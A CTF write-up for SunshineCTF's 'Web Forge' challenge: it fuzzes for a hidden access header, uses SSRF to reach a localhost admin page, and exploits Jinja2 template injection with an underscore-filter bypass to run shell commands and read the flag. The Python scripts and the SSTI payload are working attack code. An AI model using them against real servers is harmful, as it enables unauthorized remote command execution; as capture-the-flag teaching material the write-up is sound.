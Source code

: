 # Web Forge

```
NOTE FROM ADMINS: Use of automated fuzzing tools are allowed for this challenge. Fuzzing. Not Crawling. All endpoints aside from one are rate limited.
https://wormhole.sunshinectf.games/
```

Visit <https://wormhole.sunshinectf.games/fetch>, an error is given:

```
403 Forbidden: missing or incorrect SSRF access header
```

Visit <https://wormhole.sunshinectf.games/robots.txt>, it hints the hidden `/admin` endpoint and the missing header for `/fetch`:

```
User-agent: *
Disallow: /admin
Disallow: /fetch

# internal SSRF testing tool requires special auth header to be set to 'true'
```

Try different auth headers:

```python
import requests

url = "https://wormhole.sunshinectf.games/fetch"
# headers.txt downloaded from https://github.com/devanshbatham/headerpwn/blob/main/headers.txt
headers_to_try = [line.split(":")[0] for line in open("headers.txt")]
values = ["true"]

for h in headers_to_try:
    for v in values:
        r = requests.get(url, headers={h: v}, allow_redirects=False, timeout=5)
        print(f"{h}: {v} -> {r.status_code}")
        if r.status_code != 403:
            print("Possible winner:", h, v)
            print(r.text[:500])
            raise SystemExit
```

The corrent answer is `Allow: true` header. After that, we can access the `/fetch` endpoint. It has a form for ssrf:

```html
<div class="form-group">
    <label for="url">Target URL</label>
    <input type="url" id="url" name="url" placeholder="https://example.com" required>
    <small class="hint">Enter a complete URL including http:// or https://</small>
</div>
```

So we can POST for SSRF. We want to access `/admin`, which seems to only allow access from localhost:

```python
import requests

url = "https://wormhole.sunshinectf.games/fetch"

r = requests.post(
    # not working
    #url, headers={"Allow": "true"}, data={"url": "https://wormhole.sunshinectf.games/admin"}
    # working
    url, headers={"Allow": "true"}, data={"url": "http://127.0.0.1:8000/admin"}
)
print(r.text)
```

It says `Request failed: Missing template parameter`, so the next step is template injection. Try typical Jinja injection payload from <https://onsecurity.io/article/server-side-template-injection-with-jinja2/>, until we find that the server forbids `.` or `_`, but we can still execute arbitrary command with:

{% raw %}
```python
{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('command')['read']()}}
```
{% endraw %}

It does work. Then, we only need to read flag out from the local directory:

{% raw %}
```python
import requests

url = "https://wormhole.sunshinectf.games/fetch"


def run(cmd):
    r = requests.post(
        url,
        headers={"Allow": "true"},
        data={
            "url": "http://127.0.0.1:8000/admin?template={{request['application']['\\x5f\\x5fglobals\\x5f\\x5f']['\\x5f\\x5fbuiltins\\x5f\\x5f']['\\x5f\\x5fimport\\x5f\\x5f']('os')['popen']('"
            + cmd
            + "')['read']()}}"
        },
    )
    print(r.text)

run("ls -al")
run("cat f*")
```
{% endraw %}

Flag: `sun{h34der_fuzz1ng_4nd_ssti_1s_3asy_bc10bf85cabe7078}`.
